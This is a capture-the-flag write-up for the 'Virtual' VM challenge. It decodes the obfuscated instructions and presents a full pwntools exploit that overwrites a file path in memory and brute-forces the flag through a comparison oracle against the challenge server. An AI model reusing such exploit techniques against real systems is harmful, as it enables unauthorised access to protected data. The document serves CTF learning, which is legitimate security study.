


Virtual is a VM challenge written in C.
It has all the mitigations except stack canary.


Let's cover the functionality of the binary.


It looks like we're stuck in an endless loop where the program keeps asking for our input. It splits our input at each space character and then processes the resulting string through three different functions.
The first two functions compare our first string with these


And the last function checks our string agains "VMR"


Based on the LUMA_ERROR message that the program prints when we fail the checks, we can deduce that these messages are actually instructions for the language.
Let's continue


It appears that the system monitors the number of registers used in each selected instruction. For instance, with the ```INC``` instruction, if applied to a register like RAX, the assembly instruction would be ```inc rax```, not ```inc rax, rax```. This system ensures that each instruction is used correctly.

The final check monitors the number of times an instruction is used. We are limited to using the same instruction no more than 25 times.


If we look at a random instruction, we can see that they are all obfuscated, making it difficult to understand their purpose.


I won't delve into the math behind each instruction, but I will provide a table outlining each instruction and its intended use.

Instruction with one register:
```
NEAZ -> NOT
MINL -> NEG
OAN -> INC
MAZ -> DEC
NO -> NOP
BRAILA -> EXIT
```

Instruction with two registers:
```
XZD -> XOR
STF -> SHIFT LEFT
QER -> SHIFT RIGHT
LQE -> AND
SQL -> OR
RALK -> ADD
MQZL -> SUB
LQDM -> DIV
SAMO -> MOD
XKA -> MUL
MISZ -> MOV
```

There were two instructions l haven't coreved in the tables because they aren't "standard".
The first one is "MQD".


The if statement verifies that the second argument does not exceed one byte in size. Only values ranging from 0 to 255 are permitted. sub_1369 is XOR so the return value of the function will be 0. sub_165A is the ADD instruction so the function doesn't do anything. The program will then move the byte to the memory location specified by the first argument. This instruction can be translated to ```mov byte ptr [a1], a2```

The other instruction is "VMR"


The instruction opens the a3 file, it then checks if the a2 value at the a1 index in the file is the correct one. 
Looking back at the main function, we can see that the "VMR" instruction is always called with the same arguments. lumaRegisters[0], lumaRegisters[1], and a file location called "./game.txt" stored in .data


We also receive a PIE leak from the binary


The plan is to use the MQD instruction to change the file path from ./game.txt to ./flag.txt. This modification will cause the VMR instruction to open the flag file instead. Subsequently, we can attempt to guess each byte of the flag, given that there are only 16 possible values for each byte."
We'll start calculating the values 'f' 'l' 'a' 'g' since there are the only ones we need to change.
```python
# Sending the 'f'
Payload = b'''MOV l3,lip
INC l4
INC l4
ADD lax, l4
ADD l3, l4
MUL l4, l4
MUL l4, l4
ADD l4, l4
MOV l5, l4
ADD l4, l4
ADD l4, l5
MUL lax,lax
ADD l4,lax
ADD l3,lax
INC l3
INC l3
INC l4
INC l4
MUL l5,l5
MUL l5,lax
MOV l2,l5
ADD l5,l2
ADD l5,l2
ADD l5,l4
ADD l5,l4
ADD l5,l4
ADD l5,l4
ADD l5,l4
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
SUB l5,lax
INC l5
DEC l5
DEC l5
DEC l5
ADD l3, l5
MQD l3, l4
'''
```

```python
# Sending the 'g'
Payload = b'''INC l4
ADD l3,lax
INC l0
SUB l3,l0
MQD l3,l4
'''
```

```python
# Sending the 'a'
Payload = b'''SUB l4,lax
DEC l4
DEC l4
SUB l3,l0
MQD l3,l4
'''
```

```python
# Sending the 'l'
Payload = b'''SUB l3,l0
    ADD l4,lax
    ADD l4,lax
    ADD l4,lax
    DEC l4
    MQD l3,l4
    '''
```

After changing the file, we'll need to determine each possible character. This task becomes easier since we've already computed some of the values.
```python
PayloadSend0 = b'''DIV l4,lax
DEC l4
DEC l4
DEC l4
ADD l4,l4
'''

PayloadSend1 = b'''DIV l4,lax
DEC l4
DEC l4
ADD l4,l4
DEC l4
'''

<strip>
```

We'll then use two loops: the first loop will iterate through the length of the flag to brute force all possible characters for each byte. The second loop will determine the correct flag character at the current index.
```python
Payloads = [PayloadSend0, PayloadSend1, PayloadSend2, 
PayloadSend3, PayloadSend4, PayloadSend5, PayloadSend6,
PayloadSend7, PayloadSend8, PayloadSend9, PayloadSendA, 
PayloadSendB, PayloadSendC, PayloadSendD, PayloadSendE, 
PayloadSendF]
Chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8",
"9", "a", "b", "c", "d", "e", "f"]

PayloadSendIndex = Payloads[j].replace(b"\t\t\t", b"")
PayloadSendIndex += b'DEC l0\n'
PayloadSendIndex += b'ADD l0,lax\n'
PayloadSendIndex += b'ADD l0,lax\n'
PayloadSendIndex += b'DEC l0\n'
PayloadSendIndex += b'INC l0\n'*(i - 7)
PayloadSendIndex += b'MOV l1,l4\n'
PayloadSendIndex += b'CMP\n'
PayloadSendIndex = convert_to_luma_asm(PayloadSendIndex)

p.send(PayloadSendIndex)

if p.read(7) == b'Correct':
    flag += Chars[j]
```

The final exploit:
```python
#!/usr/bin/env python3

from pwn import *

def convert_to_luma_asm(data):
	data = data.replace(b"XOR", b"XZD")
	data = data.replace(b"AND", b"LQE")
	data = data.replace(b"ADD", b"RALK")
	data = data.replace(b"SUB", b"MQZL")
	data = data.replace(b"DIV", b"LQDM")
	data = data.replace(b"MUL", b"XKA")
	data = data.replace(b"MOV", b"MISZ")
	data = data.replace(b"INC", b"OAN")
	data = data.replace(b"DEC", b"MAZ")
	data = data.replace(b"CMP", b"VMR")
	data = data.replace(b"MQD", b"MQD")
	return data

context.log_level = 'error'

flag = 'TFCCTF{'

elf = ELF('./virtual')

for i in range(7, 25):
	print(flag)
	for j in range(0, 16):
			# p = elf.process()
			p = remote('challs.tfcctf.com', 31776)

			# Change the game.txt to flag.txt

			p.readuntil('(lip) = ')
			filename = int(p.readuntil(b'\n')[:-1], 16)
			filename += 12773 + 2 # We start at the 'g' char
			# print("Filename at {}".format(hex(filename)))

			p.readuntil(b': \n')

			# Sending the 'f'
			Payload = b'''MOV l3,lip
			INC l4
			INC l4
			ADD lax, l4
			ADD l3, l4
			MUL l4, l4
			MUL l4, l4
			ADD l4, l4
			MOV l5, l4
			ADD l4, l4
			ADD l4, l5
			MUL lax,lax
			ADD l4,lax
			ADD l3,lax
			INC l3
			INC l3
			INC l4
			INC l4
			MUL l5,l5
			MUL l5,lax
			MOV l2,l5
			ADD l5,l2
			ADD l5,l2
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			ADD l5,l4
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			SUB l5,lax
			INC l5
			DEC l5
			DEC l5
			DEC l5
			ADD l3, l5
			MQD l3, l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)

			p.send(Payload)
			sleep(0.01)

			# Sending the 'g'
			Payload = b'''INC l4
			ADD l3,lax
			INC l0
			SUB l3,l0
			MQD l3,l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)


			p.send(Payload)
			sleep(0.01)

			# Sending the 'a'
			Payload = b'''SUB l4,lax
			DEC l4
			DEC l4
			SUB l3,l0
			MQD l3,l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)

			p.send(Payload)
			sleep(0.01)

			# Sending the 'l'
			Payload = b'''SUB l3,l0
			ADD l4,lax
			ADD l4,lax
			ADD l4,lax
			DEC l4
			MQD l3,l4
			'''
			Payload = Payload.replace(b"\t\t\t", b"")
			Payload = convert_to_luma_asm(Payload)

			p.send(Payload)
			sleep(0.01)

			# Starting the bruteforce
			# We can start from index 7 because
            # we know the format is TFCCTF{}
			# The flag is a part of sha256 hash 
            # so only 16 posibilities of characters.
			PayloadSendF = b'''SUB l4,lax
			DEC l4
			DEC l4
			'''

			PayloadSendE = b'''SUB l4,lax
			DEC l4
			DEC l4
			DEC l4
			'''

			PayloadSendD = b'''SUB l4,lax
			SUB l4,lax
			'''

			PayloadSendC = b'''SUB l4,lax
			SUB l4,lax
			DEC l4
			'''

			PayloadSendB = b'''SUB l4,lax
			SUB l4,lax
			DEC l4
			DEC l4
			'''

			PayloadSendA = b'''SUB l4,lax
			SUB l4,lax
			DEC l4
			DEC l4
			DEC l4
			'''

			PayloadSend0 = b'''DIV l4,lax
			DEC l4
			DEC l4
			DEC l4
			ADD l4,l4
			'''

			PayloadSend1 = b'''DIV l4,lax
			DEC l4
			DEC l4
			ADD l4,l4
			DEC l4
			'''

			PayloadSend2 = b'''DIV l4,lax
			DEC l4
			DEC l4
			ADD l4,l4
			'''

			PayloadSend3 = b'''DIV l4,lax
			DEC l4
			ADD l4,l4
			DEC l4
			'''

			PayloadSend4 = b'''DIV l4,lax
			DEC l4
			ADD l4,l4
			'''

			PayloadSend5 = b'''DIV l4,lax
			ADD l4,l4
			DEC l4
			'''

			PayloadSend6 = b'''DIV l4,lax
			ADD l4,l4
			'''

			PayloadSend7 = b'''DIV l4,lax
			ADD l4,l4
			ADD l4,l0
			'''

			PayloadSend8 = b'''DIV l4,lax
			ADD l4,l4
			ADD l4,l0
			ADD l4,l0
			'''

			PayloadSend9 = b'''DIV l4,lax
			ADD l4,l4
			ADD l4,l0
			ADD l4,l0
			ADD l4,l0
			'''

			Payloads = [PayloadSend0, PayloadSend1, PayloadSend2, 
			PayloadSend3, PayloadSend4, PayloadSend5, PayloadSend6,
			PayloadSend7, PayloadSend8, PayloadSend9, PayloadSendA, 
			PayloadSendB, PayloadSendC, PayloadSendD, PayloadSendE, 
			PayloadSendF]
			Chars = ["0", "1", "2", "3", "4", "5", "6", "7", "8",
			"9", "a", "b", "c", "d", "e", "f"]

			PayloadSendIndex = Payloads[j].replace(b"\t\t\t", b"")
			PayloadSendIndex += b'DEC l0\n'
			PayloadSendIndex += b'ADD l0,lax\n'
			PayloadSendIndex += b'ADD l0,lax\n'
			PayloadSendIndex += b'DEC l0\n'
			PayloadSendIndex += b'INC l0\n'*(i - 7)
			PayloadSendIndex += b'MOV l1,l4\n'
			PayloadSendIndex += b'CMP\n'
			PayloadSendIndex = convert_to_luma_asm(PayloadSendIndex)

			p.send(PayloadSendIndex)

			if p.read(7) == b'Correct':
				flag += Chars[j]

			# p.kill()

flag += '}'
print(flag)
```


Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the Dockerfile, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/virtual.zip)